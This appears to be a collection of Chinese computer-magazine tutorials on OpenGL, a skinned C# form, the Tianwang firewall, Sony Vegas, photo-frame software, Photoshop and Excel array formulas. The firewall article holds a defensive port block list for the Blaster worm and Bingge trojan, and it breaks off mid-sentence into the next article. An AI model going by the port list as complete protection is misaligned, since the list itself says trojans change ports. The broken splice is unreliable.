在这一切的背后，那些C语言的代码究竟是什么意思呢？如果你学习了C语言和OpenGL之后便会明白了。学习C语言，《The C Programming Language》绝对是不二之选，它是由C语言的缔造者Brian Kernighan和Dennis Ritchie撰写的经久不衰的力作，在国内能够买到影印版。关于OpenGL，我推荐《OpenGL超级宝典》，网上有电子版下载，本人看完这本书的前六章就把三维魔方游戏写出来了。实际上，许多商业游戏就是用C+OpenGL这个组合开发的，网上甚至有许多游戏开发爱好者为此写了教程，一步步教授三维模型世界、贴图甚至光线追踪等高级技术，作为边玩边学的材料再合适不过了。

### 网络大补贴

1. 三维魔方游戏源代码以及可执行程序
http://www.cfan.com.cn/11program/200517/magic.zip

2. The C Programming Language
C语言的缔造者Brian Kernighan和Dennis Ritchie经久不衰的力作。

3. Dev-C++
http://sourceforge.net/projects/dev-cpp/

4. glut for Dev-C++
http://www.nigels.com/glt/devpak/glut.3.7.6+.DevPak

5. OpenGL超级宝典
非常适合想学习三维图形程序设计的初学者。

(江西 刘颉)

## 拥有皮肤的窗体

用户对于软件的第一印象往往源于看到软件界面的前3秒钟。下面我就介绍一种在.NET环境下用C#开发自己的窗体控件的简单方法。

众所周知的，.Net中的控件不同于以往的比如VB的控件，所有的类之间是继承的关系。你平时用的标准窗体就是继承自System.Windows.Forms.Form类。我的整体思路是先写一个控件继承这个类，加入一些方法再封装起来，以后在写窗体时就继承我们自己写的窗体类，这样就实现了我们自己的拥有华丽外观的窗体。

### 程序设计

首先在C#中创建一个Windows控件库，起个名比如MyClassLib。进去后在代码页面将Class1.cs改名为MyForm.cs，namespace改为MyClassLib，Class改名为MyForm，将后面继承的类改成System.Windows.Forms.Form。切换到设计视图，看看是不是一个标准的Windows窗体？

我们在窗体的属性里找到FormBorderStyle，将其改成None，再看一下，窗体的边框是不是没了？好了，现在我们可以添加自己的内容了。首先准备一幅边框图片，然后切割成8份，分别是左上角、右上角、左下角、右下角、上、下、左、右。为方便起见，你可以通过文末给出的地址直接下载源程序压缩包，其中Image目录中就是切割好了的图片。然后我们在窗体上添加4个Panel，分别起名Panel_up、Panel_down、Panel_Left、Panel_right，接着再分别往Panel_up和Panel_down上再加两个Panel，分别是Panel_upLeft、Panel_upDown、Panel_leftCross、Panel_rightCross，之后分别设置他们各自对应的BackGroundImage。怎么样，一个金属边框的窗体出来了吧？

### 用C#打造华丽的窗体控件

这时我们的窗体还跟一张图片一样，没有任何交互的动作，连关闭窗体也不行。那么一个标准的窗体应该有什么基本动作？1.最小化、最大化、关闭按钮。2.标题栏。3.移动、拉伸。下面我就来解决这几个问题。

我们可以在Panel_upRight上加3个按钮，同样加3个图片，请参考图中右上角的效果。然后分别在3个按钮的onClick事件里加入以下代码：

```
private void btn_minBox_Click(object sender, System.EventArgs e){
    this.Windowstate=FormWindowstate.Minimized;
}

private void btn_maxBox_Click(object sender, System.EventArgs e){
    if(this.Windowstate==FormWindowstate.Maximized)
        this.Windowstate=FormWindowstate.Normal;
    else
        this.Windowstate=FormWindowstate.Maximized;
}

private void btn_close_Click(object sender, System.EventArgs e){
    this.Dispose();
}
```

这样我们的窗体就能够最小化、最大化、复原以及关闭了。标题栏的文字需要用GDI+绘制上去：

```
private void panel_up_Paint(object sender, System.Windows.Forms.PaintEventArgs e) {
    Graphics g=e.Graphics; // 获得绘图画笔
    g.DrawString(this.Text, new System.Drawing.Font("幼圆", (float)12.0, System.Drawing.FontStyle.Bold), new SolidBrush_(Color.Blue), panel_up.Width/2-10, 5);
}
```

最后一项是窗体的移动拉伸。这里要用到两个系统API函数，在代码中加入：

```
[DllImport("user32.dll")]
public static extern bool ReleaseCapture();//捕获鼠标的释放

[DllImport("user32.dll")]
public static extern bool SendMessage(IntPtr hwnd, int wMsg, int wParam, int lParam);
```

SendMessage就是大名鼎鼎的Windows消息机制的发送消息，用法千变万化，这里只用到拉伸窗体(绘制一个虚线框，很酷的功能)。它有4个参数:控件的句柄，消息，消息参数，消息参数。其中的句柄就是本空间的句柄this.Handle，最后一个参数设为0，消息为0x0112，意为系统消息(sys_com)。我们只要在鼠标按下事件(MouseDown)中调用这两个方法，并更改鼠标样式就可以了，下面给出窗体移动的代码，其余大同小异：

```
private void panel_up_MouseDown(object sender, System.Windows.Forms.MouseEventArgs e) {
    this.Cursor = Cursors.SizeAll;
    ReleaseCapture();
    SendMessage(this.Handle, 0x0112, 0xf009, 0);
    this.Cursor = Cursors.Default;
}
```

剩下的还有双击最大化等功能在此就不再赘述了。

如果操作无误，编译通过后我们的窗体控件就做好了。建一个Windows应用程序项目，添加引用，浏览找到我们的控件(Dll文件)，将窗体继承的System.Windows.Forms.Form改成MyClassLib.MyForm，运行看看吧，效果很不错吧？

程序在Windows XP、Visual Studio .Net 2003下调试通过，源程序可以从：http://www.cfan.com.cn/11program/200518/skinform.zip下载。

(青岛 徐天麟)

## “天网”防火 流而不漏

经常网上冲浪，难免被黑客、木马瞄上，当你无拘无束地在网上畅游时，可能自己的电脑已经被别人监视，甚至被完全控制，电子邮件、聊天记录等个人隐私被人窃取。善良的我们需要一道“天网”来保护自己的上网安全，天网防火墙能有效过滤网络信息的收发，截断恶意信息对自己电脑的攻击，为你的电脑披上钢铁战衣，有效保护你的网络安全。

### 实例 1:给电脑织一层保护网

天网防火墙分为个人版和企业版两类版本，个人版又分充值版、零售版、试用版，其中试用版可以免费下载使用，但功能上有所限制，不过对于普通用户来说已经够用了，所以本文以试用版为例。

第一步:首先到华军软件园 http://www.onlinedown.net/soft/6958.htm 下载最新试用版，程序安装完毕会自动打开天网防火墙设置向导，一步一步引导你初步配置自己的网络防火墙:在“安全级别设置”，默认为“中”级安全级别，一般上网用户选择此项即可;如果你的机器在局域网内(比如单位的网络)，则需要进行“局域网信息设置”，一般天网会自动获取你的局域网 IP 地址和局域网的 IP 地址段，你只需选中“我的电脑在局域网中使用”项就可以了(如果自动获取的 IP 地址有误，你可以手动修改);为了让天网防火墙随时保护你的系统安全，可以选中“开机的时候自动启动天网防火墙”项;在“常用应用程序设置中，天网已经替你做好设置，直接点击“下一步”按钮;最后单击“结束”、“完成”按钮，重启电脑。

第二步:安装完毕第一次运行天网防火墙，将弹出注册窗口要求你输入用户名及注册码，如果你是一位新用户，可以单击注册窗口上的链接登录到天网论坛上，根据提示注册，就会收到一封天网安全阵线发给你的账号激活邮件，点击该邮件中相应链接登录到激活页面，把以红色字体显示的注册码(四位数)记下来连同注册时使用的用户名一起填写到软件注册窗口中，确定后就可以进入天网防火墙的主界面了(见图 1)。



**小提示**
因为天网防火墙已经启动，所以在打开邮件软件(如Foxmail)收取激活邮件时，会弹出一个是否允许 Foxmail 访问网络的警告框，可先选中“该程序以后都按照这次的操作运行”项，再单击“允许”按钮，这样以后使用 Foxmail 时就不用再认证了。如果是通过局域网中的代理软件上网，同样也要对该代理软件作上述的处理才能正常访问网络。
第三步:在主界面中，可以看到“安全级别”、“启动”、“局域网地址设定”等项是我们已经配置好了的。单击“确定”可关闭底下的配置窗口，单击右上角的“×”按钮可最小化天网防火墙，双击系统托盘内的天网防火墙图标可重新打开它的主界面。

### 实例 2:给软件核发上网通行证

防火墙围堵黑客软件的方法之一，就是对每个需要上网通讯的软件进行身份确定，对不明身份的软件，可以阻止它访问网络，从而保证上网安全。安装时为了获得注册码，我们已经给邮件软件 Foxmail 核发了一张上网通行证，下面再给 QQ 聊天软件发一张通行证。

第一步:确保天网防火墙已经启动，然后像平时一样运行并登录 QQ，这时将会弹出警告框，显示出是哪个程序在要求上网，并启动了什么网络服务及其使用的端口号。

第二步: QQ 是我们熟知的软件，当然放心啦，首先单击选中“该程序以后都按照这次的操作运行”项(如果不选此项，以后每次启动 QQ 时都会弹出这个警告窗口，非常麻烦)，接着再单击“允许”按钮就可以了。

第三步:通过上面的方法，可以给所有你认为是安全的软件核发上网通行证。如果有不明程序也要求访问网络，怎么办?没关系，可在弹出的警告框中选中“该程序以后都按照这次的操作运行”项，再单击“禁止”按钮即可。

当然，偶然也会有失手的时候，如果一不小心给不明程序(或者木马程序)也发了允许访问网络的通行证，怎么办?不要着急，这时可点击软件主界面左上角的“应用程序规则”按钮，打开“应用程序访问网络权限设置”对话框，在其中选中误被通过的不明程序(或木马程序)，然后单击点亮该程序右侧的“×”按钮就可以将它设置为禁止访问网络状态了;或者点击右侧的“删除”按钮，“确定”后便可轻松将此程序访问网络的权限没收。

> 火速链接
不管是菜鸟还是大虾，都很难判断防火墙提示的软件(特别是文件)是否安全，因为即使看似正常的某个文件，它很可能已经被捆绑了木马，所以建议你看一看本刊今年第 16 期《防火墙的大门你到底为谁开?》一文，学习一下大虾的经验。

### 实例 3:自定义 IP 规则防范“狙击波”病毒

天网防火墙的自定义 IP 规则是灵活性很强的高级操作;制定一条 IP 规则很简单，但却可以在最大限度上防范网络攻击或者设定网络权限。一旦能够灵活运用自定义 IP 规则，你的机器将固若金汤，纵使病毒木马有三头六臂也无可奈何，下面以防范最近很猖獗的“狙击波”病毒为例加以说明。

第一步:管理规则。点击天网防火墙窗口中的“IP 规则管理”按钮(“应用程序规则”下面的那个图标)，打开“自定义 IP 规则”窗口，在这里可以看到软件本身自带的几个 IP 规则，如“允许自己用 ping 命令去探测其他机器”、“防止别人用 ping 命令探测”等，每一个 IP 规则都包括动作、名称、协议、方向、对方 IP 等，要取消使用一个 IP 规则只需要单击清除该规则前的对勾号便可。

第二步:查看规则。要查看已经存在的规则的详细内容只要双击此规则名称即可，我们先来看一个已经存在的规则内容是怎么定义的:双击“允许自己用 ping 命令去探测其他机器”规则，会弹出“修改 IP 规则”对话框，这里便为你展示了此规则的详细情况;在这里还可以随心所欲地对其中的规则内容进行修改。

第三步:添加规则。本例要防范的是“狙击波”病毒，首先要了解到“狙击波”病毒传播使用的端口号为 TCP 445 端口。点击“自定义 IP 规则”窗口上方的“增加规则”按钮(左起数第一个图标)，然后在弹出的“修改 IP 规则”对话框中进行如图 2 所示的设置。“名称”可随意定义，这里命名为“防范‘狙击波’病毒”，“说明”里简要介绍一下该病毒的特征，“数据包协议类型”设置为“TCP”，将下面的“本地端口”设置为从 445 到 445，同时选中下面的“记录”、“警告”等项。最后单击“确定”返回。



第四步:调整规则。为了让刚才制定的“防范‘狙击波’病毒”的 IP 规则在病毒攻击的第一时间起到作用，还需要连续单击“自定义 IP 规则”窗口上方的“规则向上移”按钮(上箭头图标)将此规则调整到所有 TCP 协议的上面。

> **小提示**
由于天网防火墙的自定义 IP 规则是按照从上而下的顺序执行的，所以如果不将你制定的规则移动到 TCP 协议组的最顶层，有时会导致你定义的 IP 规则无效。

> **Just Do It**
自己来做防范冲击波及冰河木马的 IP 规则
前两年大肆横行的冲击波病毒以及经典的冰河木马程序也可以通过防火墙设置 IP 规则加以防范，在这里给出它们的常用端口号，大家可以自己对照上面的方法在天网防火墙中进行设置以防范攻击。

| 名称     | 常用端口                     |
|----------|------------------------------|
| 冲击波   | TCP 协议 69、135、139、445、4444 端口 |
| 冰河木马 | UDP 协议 7626 端口           |
| **备注** | 现在几乎所有的木马都具有改变监听端口的功能，以上缺省端口仅供参考，禁闭这些端口不能完全保证你的机器不受此类病毒、木马攻击。 |

### 实例 4:随心所欲控制局域网共享

单位局域网内的机器众多，如果想把自己的文档共享给局域网内某个人访问，却又不想让其他人看到你的文档，一般的方法是设置共享密码来限制访问，不过这样使用起来有些麻烦。其实，我们可以通过天网防火墙来设置让你的文档只对某台电脑开放。

第一步:点击天网防火墙窗口中的“IP 规则管理”按钮打开“自定义 IP 规则”对话框，在下面显示的 IP 规则列表中找到“允许局域网内的机器使用我的共享资源”项，双击打开“IP 规则修改”对话框。

第二步:在“对方 IP 地址”栏的下拉菜单中选择“指定地址”或“指定网络地址”，然后在随后出现的 IP 地址输入框中输入对方的 IP 地址就可以了。如果你选择的是“指定网络地址”项，注意要将其中的子网掩码设置为“255.255.255.0”。

第三步:如果恰好相反，你只想禁止局域网中某台电脑对你共享文档的访问，在此规则设置好对方的 IP 地址后，将对话框左下角的“当满足上面条件时”的下拉菜单中的“通行”修改为“拦截”便可。

### 实例 5:网络游戏反黑不用愁

许多爱好网络游戏的用户发现自己安装## Vegas 6.0 老百姓家的“大导演”

随着生活水平的提高，DC、DV等数码产品已悄悄步入了普通家庭，此时一款适合于普通用户使用的视频编辑软件显得必不可少。常用的视频编辑软件有很多，但大多数软件不是功能过于简单，就是操作过于专业。这里，笔者郑重向大家推荐一款准专业的软件——Sony Vegas 6.0，专业的效果，平民化的操作，让你轻松制作出个性化的电影来。

### Sony Vegas 6.0 简介及下载安装

Sony Vegas 6.0 是一款融影像编辑与声音修饰为一体的软件，可以导入数十种格式的文件（包括图像、音乐、视频等），对音视频的长度没有限制，剪辑修饰、添加特效、后期合成，一气呵成，不论是专业人士或是普通用户，都可以很轻松地掌握该软件。

Sony Vegas 6.0英文版下载地址为：http://download.sonymediasoftware.com/current/vegas60b.exe；由于Vegas 6.0需要Microsoft .NET Framework 1.1 Service Pack 1支持，大家可到http://download.microsoft.com/download/8/b/4/8b4addd8-e957-4dea-bdb8-c4e00af5b94b/NDP1.1sp1-KB867460-X86.exe下载，不过安装Service Pack 1需要先安装Microsoft .NET Framework 1.1，下载地址为：http://download.microsoft.com/download/7/b/9/7b90644d-1af0-42b9-b76d-a2770319a568/dotnetfx.exe。在网上搜索还能找到多种Vegas汉化补丁文件，安装时先安装Microsoft .NET Framework 1.1，然后安装Microsoft .NET Framework 1.1 Service Pack 1，接着安装Vegas 6.0英文版，最后安装汉化补丁。

### 应用实例——自编自导我的“电视游记”

在制作电视片前，不能想到哪里做到哪里，必须有一个整体的设计思路，而且要把相关的素材准备好，如：数码照片或扫描的照片，背景音乐或相关配音，前期拍摄的视频文件等。如果可能的话，还可以使用动画制作软件制作片头、片尾，这些都是一部优秀影视作品中不可少的元件。下面就来用Vegas 6.0编辑视频短片《我的游记》，本例用到的素材是笔者旅游时拍摄的一些DV短片及数码照片，大家可以用自己的素材来替代它们。

- 第一步：初识Sony Vegas

启动Sony Vegas 6.0中文汉化版，它会自动新建一个项目，先按Ctrl+S键保存文件，文件名为“我的游记.veg”。选择菜单“文件→导入→媒体”打开一个对话框，按住Ctrl键不放并用鼠标连续点选已经准备好的素材文件，再单击“打开”按钮，稍等片刻即可将它们导入到当前素材综合区的“项目媒体”中。选中导入的某个文件，再单击素材综合区上方的“开始预览”按钮（即三角形图标）可以预览该文件，双击导入的媒体文件则可以将它添加到轨道窗口中（见图1）。

小提示：在“文件”菜单中还有三个命令：“采集视频”、“获得相片”、“从CD上抓取音频”，它们可以直接从外部的数码设备或光盘中获取制作所需素材，十分方便。需要注意的是，无论是导入MPG文件或输出MPG文件都必须进行编码注册，否则无法进行，所以最好是将MPG转换成AVI或WMV格式，免去注册的麻烦。

- 第二步：简单剪辑视频

在视频轨道中，将光标放置在视频片段的左右边缘，光标将变成双箭头状，此时拖动鼠标可延长或缩短视频片段的长度。

还可以对添加到轨道窗口中的视频进行简单的裁剪操作，在循环区域按住鼠标拖动会出现一条两端点为黄色倒三角的线段（见图2），按住黄色的端点拖动可以重新调整选择的区域（被选择区域呈蓝色高亮显示），单击菜单“编辑→分割”命令（快捷键为S）即可将选择的区域与原视频切割出来，点选分离出来的不需要的视频或音频部分，按Delete键删除，再把保留下来的视频片段拖放到轨道适当的位置即可。为了裁剪得更加精确，可以通过轨道窗右下角的几个控制按钮放大或缩小轨道视图。

### 需要掌握 Vegas 的部分职业举例

- 职业：音像出版社  
用途：制作商业化的 VCD / DVD 光盘。
- 职业：电影制片公司  
用途：用于电影的后期编辑、合成。
- 职业：数码影像工作室  
用途：创作客户满意的生活片、婚礼片等。
- 职业：影视制作爱好者  
用途：制作视频相册或个性化的 DV 短片。
- 职业：教育工作者  
用途：制作富有感染力的视频课件。
- 职业：其他  
用途：绝大多数家庭和单位都可以用该软件对拍摄的视频进行后期处理，如：制作孩子的成长记录片、个人写真或企事业单位的宣传片等。

- 第三步：设置淡入效果

把光标移动到视频轨道的左上角，此时光标会改变形状（四分之一圆弧加双箭头），并出现“渐变偏移”字样（见图3），此时按住鼠标拖动会出现一个弯曲的线条，从视频开始部分到线条结束处将会以淡入的方式显示（淡入即指画面一点一点变亮）。如果想取消渐变偏移只需要将曲线向前拖动直到成为竖线即可。

- 第四步：为影片配上优美音乐

单击声音轨道上的声音（显示为波形），然后按 Delete 键删除，这里可以重新配上其他音乐，从“项目媒体”中将“背景音乐.mp3”拖放到声音轨道上就可以了。同样将光标移动到声音轨道的左上角，光标会改变形状并出现“渐变偏移”字样，向后稍微拖拉一段距离，让声音也以淡入效果出现（声音一点一点变强）。如果你想保留原视频中的声音，可以不删除它，而是将背景音乐拖放到新的轨道中，这样背景音乐和原视频中的声音会同步播放。

- 第五步：添加上动感的文字片头

选择菜单“插入→视频轨道”在当前轨道上方插入一个新的视频轨道，此时会看到“轨道编号”依次发生改变，在“轨道编号”后面双击可以输入当前轨道的名称，如：文字。选择菜单“插入→文本媒体”出现一个对话框，输入文字：“我的游记”以取代其中的样本文字，并设置好字体字号等；切换到“布局”选项卡，可以拖拉文字在影片上的位置；切换到“属性”选项卡，可以设置文字的颜色、背景色等，这里的背景色将会覆盖整个画面，默认是无背景色，即透明状态；切换到“特效”选项卡，可以给文字加上轮廓、阴影、变形等效果，完成后单击窗口右上角的“×”关闭即可，此时在“项目媒体”中会自动添加一个“Sony 文字1”文件。将生成的文字视频片段拖放到刚刚插入的“文字”视频轨道上，拖动它的右侧拉长它，可以延长它的显示时间（见图4）。

静止的文字了无趣味，我们可以让它动起来。单击“文字”轨道上的“轨道运动”按钮（即第二个图标）打开如图5所示的对话框，双击右下角的时间，输入：00:00:06.00，此时播放尺自动移动到影片的第6秒处，然后单击“+”按钮增加关键帧，将高度和宽度都设置为0；再次双击输入时间：00:00:15.00，将宽度设置为720、高度为480，设置完成后关闭窗口，这样文字从第6秒到15秒之间就会由小到大显示出来。将光标移动到“文字”视频片段的右上角，在出现“轨道偏移”字样后稍微向前拖动，这样文字就会以淡出方式消失，避免片头文字消失得太生硬。

- 第六步：添加第二段视频及转场效果

从“项目媒体”中拖动第二段视频到第一段视频的轨道上，要让两段视频有一段重合，重合的部分会显示两条交叉的蓝线。此时第二段视频中的声音也会自动覆盖在第一段视频的音轨上，点选第二段视频的音轨部分，按 Delete 键删除即可。如果还想保留第二段视频中的音频，可将该音频拖放到下面的音轨中。单击素材综合工作区下方的“转场特效”选项卡，在这里有数百种转场效果供我们选择，其左侧是分类列表，右侧是效果预览，拖动效果到两段视频的重合处，放开鼠标时会出现一个效果对话框，可以进一步设置过渡效果的一些参数，也可以使用默认值，完成后关闭该窗即可。如果想换一种转场效果，直接将其他效果拖放过去就可以替代前一种效果了。

- 第七步：声音的编辑

当影片中重叠了多段音频的时候，就要适当调整一下不同音频的音量，从而主次分明。比如在播放解说词的时候，背景音乐应该小一些，这样才不会嘈杂不清。单击背景音乐轨道上的“自动化设置”按钮（即齿轮图标），选择“显示自动化控制”，然后单击“音量”按钮会看到声音轨道上出现一条音量线；在音量线上右击，选择“增加节点”命令可以增加一个节点，在1分钟、1分10秒、1分50秒、1分55秒处分别增加节点，然后将中间的两个节点向下拖动（对应于解说词的部分），这部分的音量就会降低，从而突出了视频中的原配解说词的声音。也可以删除原来的配音，然后单击“录音”按钮（即红色圆圈图标）重新为视频录制同步解说词，十分方便。或者插入一个音频轨道，然后将播放头移动到对应的地方，单击“录音”按钮重新录音。

- 第八步：制作画中画

将要制作画中画的两段视频放置到不同的视频轨道上，并让两段视频重叠。右单击上面的视频，从右键菜单中选择“视频事件平移/裁切”打开如图6所示的窗口，虚线框相当于摄像头，拖动节点将它拉得越大，视频画面就变成远景从而越来越小，反之，视频画面将变大。本例中，将虚线框拉大让视频画面变小，从而产生画中画效果，可一边观察预览框观看效果一边操作，还可以移动画中画在整个画面中的位置。设置好后，关闭该窗口就可以了，画中画效果如图7所示。

- 第九步：添加滚动字幕片尾

插入一个视频轨道，取名为：结束文字。选择“插入→文本媒体”打开一个对话框，输入文字（如：导演、策划、编剧等）并设置各种属性。将该文字视频片段拖放到新建的视频轨道上，放置在影片末尾的位置；右击该视频片段，选择“视频事件平移/裁切”打开平移裁切对话框，在4秒处插入一个关键帧，然后点选开始处（0秒）的帧，将文字移动到镜头外，这样就可以制作出文字从外面进入画面的滚动显示效果（见图8）。

- 第十步：输出电影

影片剪辑好之后，就可以输出了。选择菜单“文件→渲染为”命令显示一个对话框，输入文件名“我的游记”，文件类型设置为“Video for Windows(*.avi)”，模板为“默认模板（无压缩的）”，再单击“自定义”按钮，将视频渲染质量设置为“最好”，这样便于以后将影片刻录成 DVD，单击“确定”再单击“保存”按钮开始渲染视频。渲染速度由视频的长度和电脑的配置决定的，一般时间都比较长。最后使用 Nero 等刻录软件将输出的视频（我的游记.avi）刻录成 VCD / DVD 光盘，这样就可以让更多的朋友来欣赏你的杰作了。注意：渲染成 AVI 文件，占用磁盘空间比较大，如果不需要刻录光盘，可以输出为 WMV 文件保存。看完本文，相信大家对影像后期编辑会有一个大致的了解，其实影像编辑就如同搭积木一样，跟开发多媒体程序也差不多。一部优秀的影片不仅仅需要高超的编辑技术，更需要制片人深入领会影片的内涵，要牢记，技术是为体现影片的内涵服务的，如果内容言之无物，制作得再好的影片也是失败的。（江苏 游小勇 周建峰）

## 个性大头贴 看我美丽七十二变

“再见面，要你们傻了眼，无所谓正面侧面，都是完美弧线。再见丑小鸭再见，自卑留给昨天，女大要十八变，看我七十二变……”蔡依林的一首《看我七十二变》，曾经迷倒了多少少男少女。今天，请跟我一起安静地坐在电脑屏幕前，只要简单地拖拖拽拽，就可轻松体验“七十二变”的快乐。我们将请出图片美化大师 Photo Frame Show，它将帮我们打造出风格各异的图片相框，装点我们的美丽。

Photo Frame Show 小档案  
软件版本：1.3  
软件大小：7781KB  
软件性质：共享软件  
适用平台：Windows 9X / 2000 / XP  
下载地址：http://likno.fileburst.com/FrameShowSetup.exe  
软件备注：这款软件的免费试用期为 15天，在15天里，足够作出一大堆的个性化照片了。

### 实例1：酷炫相框随心变

第一步：双击下载所得文件并按照提示进行安装，安装完毕启动软件，会弹出一个15天试用的提示框，单击 OK 进入软件的主界面。单击主界面上的“open image(打开图像)”按钮调出打开文件窗口，找到并点击需要加相框的照片，将它加载到默认相框中，直接拖动照片可调整它在相框中的位置，拖动“resize image(调整图像大小)”滑钮则可以调整照片的大小，拖动“resize frame(调整框架大小)”则可以放大或缩小整个框架(见图1)。

第二步：默认相框太中规中矩，没有个性，下面用其他风格的相框来替代它。单击“open frame(打开框架)”按钮，软件自带有7大类框架，如:Shapes(形状)、Seasons(季节)、Sports(运动)、Emotions(情感)等。这里点击进入其 Occasions(场合)下的 Birthday(生日)分类，点选其中的气球相框，将得到如图2所示的效果，是不是很不错。如果你不满意的话，可以尝试其他的相框，只需要鼠标点来点去就可以替换，非常方便。

第三步：如果感觉满意，可单击下面的“save”按钮(快捷键为 Ctrl+S)。还可以单击“email”按钮打开一个个性化的邮件窗口，填写上收件人的 E-mail、主题及祝福的话，再单击“Send”按钮将图片发送给好友。当然，你也可以单击“Print”按钮将照片打印出来欣赏了。

第四步：如果你觉得软件自带的相框不够用，可在打开相框窗口的底部，单击“Download More Frames(下载更多框架)”按钮链接到软件的官方网站下载更多更酷的相框。

小提示：浏览相框资源网站的时候，左侧是相框分类，右侧是相框略图，点击略图下载即可。如果下载总是显示不成功的话，可像笔者一样直接下载网站提供的框架包文件(下载地址:http://www.frameshow.com/framepacks.htm)，双击下载所得 EXE 可执行文件包安装后，在 Photo Frame Show 框架类别中，将会发现增加了许多新的好看的相框。

### 实例2：给桌面打开一扇美丽的窗

我们可以通过 Photo Frame Show 将制作好的照片“贴”到桌面上，给桌面配上好看的窗口。

第一步：选择好相框样式并将图片调整适当后，单击主界面上的“leave to desktop(贴到桌面)”按钮，这时桌面将被最大化，根据提示将照片拖放到桌面合适的位置，放开鼠标键后，一个个性化的桌面就完成了(见图3)。

第二步：如果想收回桌面上的照片，可再次启动 Photo Frame Show，然后单击主界面上的“get frame desktop”按钮就可以了，非常方便。重复上面的操作，你就等于有了一个百变桌面，可以随时改变它的风格了。

小编有话说：测试这个软件时，小编情不自禁地喜欢上它，首先是简单易用，即使是菜鸟也能很快上手操作；其次是效果非常炫，用它来帮 MM 制作个性化的大头贴，一定能讨 MM 喜欢。不过这个软件自动刷新功能有所欠缺，界面经常会变白，这时就需要重新拖动一下界面，就能够恢复了。（北京 一页）

## 超酷Flash相册Photoshop CS2造

自从买了数码相机，总喜欢东拍拍西照照，时间长了也积攒了不少照片。闲来无事，把所有照片整理了一下，挑出一些自认为效果还不错的照片，分门别类制作成当前最时尚、最流行的 Flash 动画相册。不要以为制作 Flash 相册有多难，其实无须学习 Flash MX，在 Photoshop CS2 中就能轻松搞定。

第一步：将整理好的准备制作成相册的图片保存到同一文件夹中，比如本例中的所有图片都保存在 D:\FlashPhotos。

第二步：执行“File(文件)→Automate(自动化)→Web Photo Gallery(Web 相册)”命令调出 Web 相册窗口。在 Styles(风格)中选择“Flash-Gallery 2”项；Source Images(源图像)选择使用 Folder(文件夹)，单击下面的 Browse(浏览)按钮，然后选中保存图片的文件夹(即 D:\FlashPhotos)；单击 Destination(目标地址)按钮，选择最终保存 Flash 相册的文件夹(如 D:\数字相册)。

第三步：完成以上两步后，就可以单击 OK 确定，生成 Flash 相册了。不过通过 Options(选项)设置可以为相册增加更多内容。单击 Options 右侧下拉按钮，选择 Banner 项，可以设置相册标题、摄影者姓名、联系信息、日期等；选择 Large Images 项，可以改变图片大小、压缩质量、图片标题与描述等；选择 Thumbnails 项，可以设置缩略图大小；选择 Custom Colors 项可以设置 Flash 相册背景色、字体色、Banner 条颜色等。设置完毕，单击 OK 确定。如果图片文件是中文名称，可能会弹出一个提示框，不用理它，单击 Yes 确认，Photoshop 便自动开始一系列的处理了。

第四步：Flash 相册制作完成后，Photoshop 会自动调用浏览器打开它，是不是很漂亮，很酷！单击底部的缩略图可快速切换到相应图片，也可以通过右下角的一排 Flash 控制按钮浏览图片。图片切换时还会有淡入淡出效果，并且能根据图片的大小自动调整显示窗口的大小，非常炫！

小提示：如果你安装了 Windows XP SP2，在打开嵌有 Flash 动画的网页时，IE 为了安全原因，将会屏蔽掉相关内容，要想看到 Flash 动画，则必须单击 IE 上方提示栏，并选择“允许阻止的内容”确认即可。当然，也可双击生成的 SWF 文件(该文件保存在单击 Destination 按钮时设置的文件夹中)，直接在 Flash Player 中欣赏，非常方便，效果也更好。  
Photoshop CS2 中的 Web Photo Gallery 还有许多其他的 Styles(风格样式)，有兴趣的朋友不妨一一尝试，一定有意外的收获哦。（安徽 无言）

## 巧用“粘贴入”，制作嵌图美术字

在 Photoshop 中，除“粘贴”命令(快捷键为 Ctrl + V)外，还有一个“粘贴入”命令(快捷键为 Ctrl + Shift + V)，这个命令能完成一些特殊效果，下面就用它来制作一款五彩嵌图效果文字。

第一步：打开一幅色彩较为鲜艳的图片，本例使用的是一幅水果图片。按 Ctrl + A 键全选图片，再按 Ctrl + C 键复制。

第二步：新建一个文件，然后右击工具箱中的文字工具，选中其子菜单中的“横排文字蒙版工具”，使用此工具在新建图像上输入文字(本例输入的是:FILLING TYPE)，并设置它的大小及字体，最好将字体设置大一些，这样效果就会明显。

第三步：继续在新图像上工作，点选一下移动工具以取消文字输入状态，此时再按 Ctrl + Shift + V 键执行“粘贴入”命令，你会发现图片已经嵌入到文字选区中了，用移动工具拖动，还可以调整图片位置以达到满意的嵌图文字效果。最后合并图层、保存文字即可(见图)。（北京 一页）

## 好为人师解疑惑 循循善诱说数组

故事：沙僧找到八戒：“二师兄，听了你的几期Excel讲座后，发现Excel函数的功能还真是挺强大的。我自己也买了一些参考书来看，发现好多函数的参数可以使用数组，这‘数组’到底是什么东东啊？还有‘数组公式’什么的，我怎么也看不明白。”八戒笑道：“顾名思义，数组就是一组数据的集合，在Excel里，数组数据一般被保存在一系列的单元格中。数据都保存在一行或一列中的，称为一维数组，保存在多行多列的矩形区域中则称为二维数组。数组公式自然就是对这一组数据（或者多组）进行整体运算的公式了。数组公式可以同时进行多个计算并返回一种或多种结果，而一般的公式，每个则只能返回一个运算结果。这样说起来比较抽象，下面我们还是通过实例来说明吧。”

### 实战1：化繁为简 一步定乾坤

八戒曾为搞房地产的表兄制作过一个销售业绩工作表，虽然很简单，却能很好地展示Excel数组公式的作用，下面就来看看他的制作过程。

第一步：启动Excel，建立一个如图1所示的工作表。当然，这个表格仅仅是一个示例，有兴趣的读者完全可以根据自身实际情况，将此表改造成其他职业的销售表格，同样可以借用下面的方法技巧。



第二步：在本例的表格中，可以看出从单元格C2到D10，正好构成了一个二维数组。接下来要做的就是，将每个人的销售数量乘以实际出售的单价，从而获得每个人每种户型合计销售的数字。合计的结果分别放置在E2至E10单元格中。按下鼠标左键拖动，同时选中E2至E10单元格，然后输入以下公式：
=C2:C10*D2:D10

第三步：输入好公式后，按Ctrl+Shift+回车组合键结束，将其变成数组公式，Excel会自动将输入的公式用大括号（{}）括起来（注意：这是比较关键的一步，如果你直接按回车键结束，完成的将是一般公式）。这时你会发现E列被选取的单元格中，已经快速计算出每个人每类户型的合计销售额了。依次点击E列中的相应单元格查看，会发现每个单元格中的公式都是完全一样的（见图2），从这里可以体验到同一个数组公式输出不同运算结果的效果吧。

小提示：
一个普通的Excel公式，当它是针对整个（或多个）数组进行运算的时候，就可以将它变成数组公式了。构成数组公式的外面的大括号，一定要在输入好公式后按Ctrl+Shift+回车组合键自动添加上，手工添加的大括号是无效的。



